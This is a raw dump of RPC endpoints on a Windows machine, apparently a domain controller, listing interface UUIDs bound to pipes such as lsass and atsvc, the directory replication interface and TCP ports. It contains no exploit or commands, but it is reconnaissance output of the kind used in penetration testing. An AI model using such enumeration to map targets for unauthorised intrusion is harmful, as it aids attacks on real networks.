  1ff70682-0a51-30e8-076d-740be8cee98b v1.0 (): ncalrpc:[LRPC-464d303499bcef7db8]
  1ff70682-0a51-30e8-076d-740be8cee98b v1.0 (): ncacn_np:[\\PIPE\\atsvc]
  378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 (): ncalrpc:[LRPC-464d303499bcef7db8]
  378e52b0-c0a9-11cf-822d-00aa0051e40f v1.0 (): ncacn_np:[\\PIPE\\atsvc]
  33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 (): ncalrpc:[LRPC-464d303499bcef7db8]
  33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 (): ncacn_np:[\\PIPE\\atsvc]
  33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 (): ncalrpc:[ubpmtaskhostchannel]
  33d84484-3626-47ee-8c6f-e7e98b113be1 v2.0 (): ncalrpc:[LRPC-4f112bc491b328a6c4]
  86d35949-83c9-4044-b424-db363231fd0c v1.0 (): ncalrpc:[LRPC-464d303499bcef7db8]
  86d35949-83c9-4044-b424-db363231fd0c v1.0 (): ncacn_np:[\\PIPE\\atsvc]
  86d35949-83c9-4044-b424-db363231fd0c v1.0 (): ncalrpc:[ubpmtaskhostchannel]
  86d35949-83c9-4044-b424-db363231fd0c v1.0 (): ncalrpc:[LRPC-4f112bc491b328a6c4]
  86d35949-83c9-4044-b424-db363231fd0c v1.0 (): ncacn_ip_tcp:[49667]
  3a9ef155-691d-4449-8d05-09ad57031823 v1.0 (): ncalrpc:[LRPC-464d303499bcef7db8]
  3a9ef155-691d-4449-8d05-09ad57031823 v1.0 (): ncacn_np:[\\PIPE\\atsvc]
  3a9ef155-691d-4449-8d05-09ad57031823 v1.0 (): ncalrpc:[ubpmtaskhostchannel]
  3a9ef155-691d-4449-8d05-09ad57031823 v1.0 (): ncalrpc:[LRPC-4f112bc491b328a6c4]
  3a9ef155-691d-4449-8d05-09ad57031823 v1.0 (): ncacn_ip_tcp:[49667]
  3f787932-3452-4363-8651-6ea97bb373bb v1.0 (NSP Rpc Interface): ncalrpc:[OLE221DDDF099BF0186E7E3B9AF637C]
  3f787932-3452-4363-8651-6ea97bb373bb v1.0 (NSP Rpc Interface): ncalrpc:[LRPC-1e2857c12d5db57edd]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[senssvc]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[LRPC-8a4f1912e3a0c3fefc]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[LRPC-75fdf3ecacedb39806]
  2eb08e3e-639f-4fba-97b1-14f878961076 v1.0 (Group Policy RPC Interface): ncalrpc:[LRPC-3ef32712f0165fdbd8]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[IUserProfile2]
  f6beaff7-1e19-4fbb-9f8f-b89e2018337c v1.0 (Event log TCPIP): ncalrpc:[eventlog]
  f6beaff7-1e19-4fbb-9f8f-b89e2018337c v1.0 (Event log TCPIP): ncacn_np:[\\pipe\\eventlog]
  f6beaff7-1e19-4fbb-9f8f-b89e2018337c v1.0 (Event log TCPIP): ncacn_ip_tcp:[49666]
  30adc50c-5cbc-46ce-9a0e-91914789e23c v1.0 (NRP server endpoint): ncalrpc:[DNSResolver]
  30adc50c-5cbc-46ce-9a0e-91914789e23c v1.0 (NRP server endpoint): ncalrpc:[LRPC-6df1bb6b27326833bd]
  3c4728c5-f0ab-448b-bda1-6ce01eb0a6d6 v1.0 (DHCPv6 Client LRPC Endpoint): ncalrpc:[dhcpcsvc6]
  3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5 v1.0 (DHCP Client LRPC Endpoint): ncalrpc:[dhcpcsvc6]
  3c4728c5-f0ab-448b-bda1-6ce01eb0a6d5 v1.0 (DHCP Client LRPC Endpoint): ncalrpc:[dhcpcsvc]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-e8e1717698c0b4e430]
  a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 (): ncalrpc:[LRPC-e8e1717698c0b4e430]
  a500d4c6-0dd1-4543-bc0c-d5f93486eaf8 v1.0 (): ncalrpc:[LRPC-d5165ae0a434394c22]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-387520e55a7e0c876e]
  5222821f-d5e2-4885-84f1-5f6185a0ec41 v1.0 (): ncalrpc:[LRPC-cfab8e4116cf29301f]
  880fd55e-43b9-11e0-b1a8-cf4edfd72085 v1.0 (KAPI Service endpoint): ncalrpc:[LRPC-387520e55a7e0c876e]
  880fd55e-43b9-11e0-b1a8-cf4edfd72085 v1.0 (KAPI Service endpoint): ncalrpc:[OLEEC6DF4CF3D8C4A60F7CCCE0DA1D0]
  880fd55e-43b9-11e0-b1a8-cf4edfd72085 v1.0 (KAPI Service endpoint): ncalrpc:[LRPC-4762f2f58f13a407f4]
  e40f7b57-7a25-4cd3-a135-7f7d3df9d16b v1.0 (): ncalrpc:[LRPC-53c99b45c8439c58de]
  7ea70bcf-48af-4f6a-8968-6a440754d5fa v1.0 (NSI server endpoint): ncalrpc:[LRPC-660deec3cb85f53ccc]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[LRPC-b5330660ea2f47d013]
  4bec6bb8-b5c2-4b6f-b2c1-5da5cf92d0d9 v1.0 (): ncalrpc:[umpo]
  085b0334-e454-4d91-9b8c-4134f9e793f3 v1.0 (): ncalrpc:[umpo]
  8782d3b9-ebbd-4644-a3d8-e8725381919b v1.0 (): ncalrpc:[umpo]
  3b338d89-6cfa-44b8-847e-531531bc9992 v1.0 (): ncalrpc:[umpo]
  bdaa0970-413b-4a3e-9e5d-f6dc9d7e0760 v1.0 (): ncalrpc:[umpo]
  5824833b-3c1a-4ad2-bdfd-c31d19e23ed2 v1.0 (): ncalrpc:[umpo]
  0361ae94-0316-4c6c-8ad8-c594375800e2 v1.0 (): ncalrpc:[umpo]
  dd59071b-3215-4c59-8481-972edadc0f6a v1.0 (): ncalrpc:[umpo]
  dd59071b-3215-4c59-8481-972edadc0f6a v1.0 (): ncalrpc:[actkernel]
  dd59071b-3215-4c59-8481-972edadc0f6a v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 (): ncalrpc:[umpo]
  2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 (): ncalrpc:[actkernel]
  2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  2d98a740-581d-41b9-aa0d-a88b9d5ce938 v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 (): ncalrpc:[umpo]
  8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 (): ncalrpc:[actkernel]
  8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  8bfc3be1-6def-4e2d-af74-7c47cd0ade4a v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 (): ncalrpc:[umpo]
  1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 (): ncalrpc:[actkernel]
  1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  1b37ca91-76b1-4f5e-a3c7-2abfc61f2bb0 v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 (): ncalrpc:[umpo]
  c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 (): ncalrpc:[actkernel]
  c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  c605f9fb-f0a3-4e2a-a073-73560f8d9e3e v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 (): ncalrpc:[umpo]
  0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 (): ncalrpc:[actkernel]
  0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  0d3e2735-cea0-4ecc-a9e2-41a2d81aed4e v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  2513bcbe-6cd4-4348-855e-7efb3c336dd3 v2.0 (): ncalrpc:[umpo]
  2513bcbe-6cd4-4348-855e-7efb3c336dd3 v2.0 (): ncalrpc:[actkernel]
  2513bcbe-6cd4-4348-855e-7efb3c336dd3 v2.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  2513bcbe-6cd4-4348-855e-7efb3c336dd3 v2.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  20c40295-8dba-48e6-aebf-3e78ef3bb144 v2.0 (): ncalrpc:[umpo]
  20c40295-8dba-48e6-aebf-3e78ef3bb144 v2.0 (): ncalrpc:[actkernel]
  20c40295-8dba-48e6-aebf-3e78ef3bb144 v2.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  20c40295-8dba-48e6-aebf-3e78ef3bb144 v2.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 (): ncalrpc:[umpo]
  857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 (): ncalrpc:[actkernel]
  857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  857fb1be-084f-4fb5-b59c-4b2c4be5f0cf v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  55e6b932-1979-45d6-90c5-7f6270724112 v1.0 (): ncalrpc:[umpo]
  55e6b932-1979-45d6-90c5-7f6270724112 v1.0 (): ncalrpc:[actkernel]
  55e6b932-1979-45d6-90c5-7f6270724112 v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  55e6b932-1979-45d6-90c5-7f6270724112 v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  55e6b932-1979-45d6-90c5-7f6270724112 v1.0 (): ncalrpc:[LRPC-c92dfe97726f20a6c9]
  76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 (): ncalrpc:[umpo]
  76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 (): ncalrpc:[actkernel]
  76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  76c217bc-c8b4-4201-a745-373ad9032b1a v1.0 (): ncalrpc:[LRPC-c92dfe97726f20a6c9]
  88abcbc3-34ea-76ae-8215-767520655a23 v0.0 (): ncalrpc:[umpo]
  88abcbc3-34ea-76ae-8215-767520655a23 v0.0 (): ncalrpc:[actkernel]
  88abcbc3-34ea-76ae-8215-767520655a23 v0.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  88abcbc3-34ea-76ae-8215-767520655a23 v0.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  88abcbc3-34ea-76ae-8215-767520655a23 v0.0 (): ncalrpc:[LRPC-c92dfe97726f20a6c9]
  2c7fd9ce-e706-4b40-b412-953107ef9bb0 v0.0 (): ncalrpc:[umpo]
  c521facf-09a9-42c5-b155-72388595cbf0 v0.0 (): ncalrpc:[umpo]
  1832bcf6-cab8-41d4-85d2-c9410764f75a v1.0 (): ncalrpc:[umpo]
  4dace966-a243-4450-ae3f-9b7bcb5315b8 v2.0 (): ncalrpc:[umpo]
  178d84be-9291-4994-82c6-3f909aca5a03 v1.0 (): ncalrpc:[umpo]
  e53d94ca-7464-4839-b044-09a2fb8b3ae5 v1.0 (): ncalrpc:[umpo]
  fae436b0-b864-4a87-9eda-298547cd82f2 v1.0 (): ncalrpc:[umpo]
  082a3471-31b6-422a-b931-a54401960c62 v1.0 (): ncalrpc:[umpo]
  6982a06e-5fe2-46b1-b39c-a2c545bfa069 v1.0 (): ncalrpc:[umpo]
  0ff1f646-13bb-400a-ab50-9a78f2b7a85a v1.0 (): ncalrpc:[umpo]
  4ed8abcc-f1e2-438b-981f-bb0e8abc010c v1.0 (): ncalrpc:[umpo]
  95406f0b-b239-4318-91bb-cea3a46ff0dc v1.0 (): ncalrpc:[umpo]
  0d47017b-b33b-46ad-9e18-fe96456c5078 v1.0 (): ncalrpc:[umpo]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[umpo]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[actkernel]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-c92dfe97726f20a6c9]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-b950262c5188194f0a]
  9b008953-f195-4bf9-bde0-4471971e58ed v1.0 (): ncalrpc:[umpo]
  9b008953-f195-4bf9-bde0-4471971e58ed v1.0 (): ncalrpc:[actkernel]
  9b008953-f195-4bf9-bde0-4471971e58ed v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  9b008953-f195-4bf9-bde0-4471971e58ed v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  9b008953-f195-4bf9-bde0-4471971e58ed v1.0 (): ncalrpc:[LRPC-c92dfe97726f20a6c9]
  9b008953-f195-4bf9-bde0-4471971e58ed v1.0 (): ncalrpc:[LRPC-b950262c5188194f0a]
  9b008953-f195-4bf9-bde0-4471971e58ed v1.0 (): ncalrpc:[LRPC-10c8d5ec384dfefd79]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[umpo]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[actkernel]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-c92dfe97726f20a6c9]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-b950262c5188194f0a]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-10c8d5ec384dfefd79]
  697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 (): ncalrpc:[umpo]
  697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 (): ncalrpc:[actkernel]
  697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 (): ncalrpc:[LRPC-c92dfe97726f20a6c9]
  697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 (): ncalrpc:[LRPC-b950262c5188194f0a]
  697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 (): ncalrpc:[LRPC-10c8d5ec384dfefd79]
  697dcda9-3ba9-4eb2-9247-e11f1901b0d2 v1.0 (): ncalrpc:[LRPC-cc5a5a5c35adae86e8]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[umpo]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[actkernel]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-c92dfe97726f20a6c9]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-b950262c5188194f0a]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-10c8d5ec384dfefd79]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[LRPC-cc5a5a5c35adae86e8]
  d09bdeb5-6171-4a34-bfe2-06fa82652568 v1.0 (): ncalrpc:[csebpub]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[umpo]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[actkernel]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[OLECA5474535B1FD2CE5D4889B0DA54]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[LRPC-faa4024ef86b4116d8]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[LRPC-c92dfe97726f20a6c9]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[LRPC-b950262c5188194f0a]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[LRPC-10c8d5ec384dfefd79]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[LRPC-cc5a5a5c35adae86e8]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[csebpub]
  fc48cd89-98d6-4628-9839-86f7a3e4161a v1.0 (): ncalrpc:[dabrpc]
  76f226c3-ec14-4325-8a99-6a46348418af v1.0 (): ncalrpc:[WMsgKRpc0A1230]
  76f226c3-ec14-4325-8a99-6a46348418af v1.0 (): ncacn_np:[\\PIPE\\InitShutdown]
  76f226c3-ec14-4325-8a99-6a46348418af v1.0 (): ncalrpc:[WindowsShutdown]
  d95afe70-a6d5-4259-822e-2c84da1ddb0d v1.0 (): ncalrpc:[WMsgKRpc0A1230]
  d95afe70-a6d5-4259-822e-2c84da1ddb0d v1.0 (): ncacn_np:[\\PIPE\\InitShutdown]
  d95afe70-a6d5-4259-822e-2c84da1ddb0d v1.0 (): ncalrpc:[WindowsShutdown]
  d95afe70-a6d5-4259-822e-2c84da1ddb0d v1.0 (): ncacn_ip_tcp:[49665]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncacn_np:[\\pipe\\lsass]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[audit]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[securityevent]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[LSARPC_ENDPOINT]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[lsacap]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[LSA_EAS_ENDPOINT]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[lsapolicylookup]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[lsasspirpc]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[protected_storage]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[SidKey Local End Point]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[samss lpc]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  12345778-1234-abcd-ef00-0123456789ac v1.0 (): ncacn_ip_tcp:[49664]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncacn_np:[\\pipe\\lsass]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[audit]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[securityevent]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[LSARPC_ENDPOINT]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[lsacap]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[LSA_EAS_ENDPOINT]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[lsapolicylookup]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[lsasspirpc]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[protected_storage]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[SidKey Local End Point]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[samss lpc]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncacn_ip_tcp:[49664]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncacn_ip_tcp:[49668]
  c9ac6db5-82b7-4e55-ae8a-e464ed7b4277 v1.0 (Impl friendly name): ncalrpc:[OLEBDDE892865850A065D3E460908B5]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncacn_np:[\\pipe\\lsass]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[audit]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[securityevent]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[LSARPC_ENDPOINT]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[lsacap]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[LSA_EAS_ENDPOINT]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[lsapolicylookup]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[lsasspirpc]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[protected_storage]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[SidKey Local End Point]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[samss lpc]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncacn_ip_tcp:[49664]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncacn_ip_tcp:[49668]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[OLEBDDE892865850A065D3E460908B5]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncalrpc:[NTDS_LPC]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncacn_http:[49922]
  e3514235-4b06-11d1-ab04-00c04fc2dcd2 v4.0 (MS NT Directory DRS Interface): ncacn_np:[\\pipe\\1c2fbc43b1220d57]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncacn_np:[\\pipe\\lsass]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[audit]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[securityevent]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[LSARPC_ENDPOINT]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[lsacap]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[LSA_EAS_ENDPOINT]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[lsapolicylookup]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[lsasspirpc]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[protected_storage]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[SidKey Local End Point]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[samss lpc]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncacn_ip_tcp:[49664]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncacn_ip_tcp:[49668]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[OLEBDDE892865850A065D3E460908B5]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncalrpc:[NTDS_LPC]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncacn_http:[49922]
  12345778-1234-abcd-ef00-0123456789ab v0.0 (): ncacn_np:[\\pipe\\1c2fbc43b1220d57]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncacn_np:[\\pipe\\lsass]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[audit]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[securityevent]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[LSARPC_ENDPOINT]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[lsacap]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[LSA_EAS_ENDPOINT]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[lsapolicylookup]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[lsasspirpc]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[protected_storage]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[SidKey Local End Point]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[samss lpc]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[MicrosoftLaps_LRPC_0fb2f016-fe45-4a08-a7f9-a467f5e5fa0b]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncacn_ip_tcp:[49664]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncacn_ip_tcp:[49668]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[OLEBDDE892865850A065D3E460908B5]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncalrpc:[NTDS_LPC]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncacn_http:[49922]
  b25a52bf-e5dd-4f4a-aea6-8ca7272a0e86 v2.0 (KeyIso): ncacn_np:[\\pipe\\1c2fbc43b1220d57]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncacn_np:[\\pipe\\lsass]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[audit]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[securityevent]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[LSARPC_ENDPOINT]
  8fb74744-b2ff-4c00-be0d-9ef9a191fe1b v1.0 (Ngc Pop Key Service): ncalrpc:[lsacap]
